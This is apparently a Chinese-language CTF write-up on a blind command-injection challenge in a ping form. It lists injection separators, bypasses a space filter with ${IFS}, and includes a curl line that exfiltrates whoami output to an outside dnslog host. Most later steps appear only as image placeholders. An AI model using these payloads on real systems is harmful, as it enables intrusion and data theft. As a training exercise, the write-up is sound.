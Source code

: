 # week3

懒怠了，今天打打渔 

## Ping To The Host

界面打开，ping一下这种题目，命令执行呗

之前的做法是 形如ip+连接符+code 

```
127.0.0.1&&+code  只有在 && 左边的命令返回真（命令返回值 $? == 0），&& 右边的命令才 会被执行。
127.0.0.1&+code  &表示将任务置于后台执行
127.0.0.1||+code  只有在 || 左边的命令返回假（命令返回值 $? == 1），|| 右边的命令才 会被执行。
127.0.0.1|+code  | 表示管道，上一条命令的输出，作为下一条命令的参数
127.0.0.1;+code  多行语句用换行区分代码快，单行语句一般要用到分号来区分代码块
```

试了一下 ；被过滤了 

![image-20230124124307900](C:\Users\dell\AppData\Roaming\Typora\typora-user-images\image-20230124124307900.png)![image-20230124124328199](C:\Users\dell\AppData\Roaming\Typora\typora-user-images\image-20230124124328199.png)

但都没有回显，和之前做的不一样，搜一搜《命令执行不回显》

https://blog.csdn.net/weixin_33164837/article/details/112421828

是什么命令执行外带 

先试了dnslog

|curl `whoami`.gbpiyl.dnslog.cn

waf了啥东西不能用啊 

![image-20230124124903888](C:\Users\dell\AppData\Roaming\Typora\typora-user-images\image-20230124124903888.png)//形如此般的测试一下 空格被过滤啦

用了<> %20 等 ${IFS}是ok的

![image-20230124125135172](C:\Users\dell\AppData\Roaming\Typora\typora-user-images\image-20230124125135172.png)

![image-20230124125614888](C:\Users\dell\AppData\Roaming\Typora\typora-user-images\image-20230124125614888.png)

都还顺利，但不知道为啥这里就不行了

就改用vps

![image-20230124130327453](C:\Users\dell\AppData\Roaming\Typora\typora-user-images\image-20230124130327453.png)



![image-20230124130405226](C:\Users\dell\AppData\Roaming\Typora\typora-user-images\image-20230124130405226.png)

解码找到flag_is_here_haha

![image-20230124130527628](C:\Users\dell\AppData\Roaming\Typora\typora-user-images\image-20230124130527628.png)

又waf  测试了疑似过滤flag

![image-20230124130607930](C:\Users\dell\AppData\Roaming\Typora\typora-user-images\image-20230124130607930.png)

![image-20230124130631707](C:\Users\dell\AppData\Roaming\Typora\typora-user-images\image-20230124130631707.png)

解码  ok

